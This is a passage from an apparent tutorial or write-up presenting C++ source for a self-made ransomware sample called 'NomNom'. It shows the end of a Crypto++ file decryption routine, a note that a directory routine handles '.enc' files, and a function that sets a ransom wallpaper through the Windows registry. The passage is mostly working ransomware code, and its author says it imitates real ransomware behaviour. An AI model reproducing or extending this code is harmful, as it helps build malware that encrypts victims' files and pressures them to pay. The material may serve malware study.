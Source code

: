 ```cpp
                new StringSink(plainText),
                BlockPaddingSchemeDef::PKCS_PADDING)
        );

        // Write Decrypted Data to File
        ofstream outFile(outputFile, ios::binary);
        if (!outFile) {
            cerr << "[-] Error opening file: " << outputFile << " to store decrypted data." << endl;
            return EXIT_FAILURE;
        }
        outFile << plainText;
        outFile.close();

        cout << "[+] File decrypted successfully: " << outputFile << endl;
        return EXIT_SUCCESS;
    }
    catch (const Exception& error) {
        cerr << "[-] Decryption failed: " << error.what() << endl;
        return EXIT_FAILURE;
    }
}
```

Just like with encryption, `decryptFile` is implemented in a larger function `decryptDirectory` that checks for files with the `.enc` extension and then decrypts the contents. It also removes the `.enc` extension after successfull decryption.

## Wallpaper Change

I have seen several instances of Ransomware that changes the wallpaper of the target machine to make it more apparent to the user what is happening so I wanted to include it in NomNom as well.

Here's the code below;

```cpp
int setRansomWallpaper(const wstring& imagePath) {
    // Registry path for wallpaper settings
    HKEY hKey;
    LONG result = RegOpenKeyExW(HKEY_CURRENT_USER, L"Control Panel\\Desktop", 0, KEY_SET_VALUE, &hKey);
    if (result != ERROR_SUCCESS) {
        cerr << "[-] Failed to open registry key." << endl;
        return EXIT_FAILURE;
    }

    // Set wallpaper style (0 = Center, 2 = Stretch, 6 = Fit, 10 = Fill)
    DWORD style = 10;
    RegSetValueExW(hKey, L"WallpaperStyle", 0, REG_SZ, (BYTE*)L"10", sizeof(L"10"));
    RegSetValueExW(hKey, L"TileWallpaper", 0, REG_SZ, (BYTE*)L"0", sizeof(L"0"));

    RegCloseKey(hKey);

    // Apply the wallpaper
    BOOL spiResult = SystemParametersInfoW(
        SPI_SETDESKWALLPAPER,
        0,
        (PVOID)imagePath.c_str(),
        SPIF_UPDATEINIFILE | SPIF_SENDCHANGE
    );

    if (!spiResult) {
        cerr << "[-] Failed to apply wallpaper. Error code: " << GetLastError() << endl;
        return EXIT_FAILURE;
```